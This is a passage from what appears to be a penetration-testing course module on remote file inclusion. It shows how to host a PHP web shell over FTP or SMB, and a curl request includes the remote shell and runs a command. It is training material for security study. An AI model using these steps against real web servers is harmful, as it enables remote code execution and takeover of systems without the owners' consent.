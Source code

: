 Tip: We can examine the connection on our machine to ensure the request is being sent as we specified it. For example, if we saw an extra extension (.php) was appended to the request, then we can omit it from our payload

### FTP

As mentioned earlier, we may also host our script through the FTP protocol. We can start a basic FTP server with Python's `pyftpdlib`, as follows:

```shell-session
root@htb[/htb]$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```

This may also be useful in case http ports are blocked by a firewall or the `http://` string gets blocked by a WAF. To include our script, we can repeat what we did earlier, but use the `ftp://` scheme in the URL, as follows:

![](https://academy.hackthebox.com/storage/modules/23/rfi\_localhost.jpg)

As we can see, this worked very similarly to our http attack, and the command was executed. By default, PHP tries to authenticate as an anonymous user. If the server requires valid authentication, then the credentials can be specified in the URL, as follows:

```shell-session
root@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### SMB

If the vulnerable web application is hosted on a Windows server (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation, as we can utilize the SMB protocol for the remote file inclusion. This is because Windows treats files on remote SMB servers as normal files, which can be referenced directly with a UNC path.

We can spin up an SMB server using `Impacket's smbserver.py`, which allows anonymous authentication by default, as follows:

```shell-session
root@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
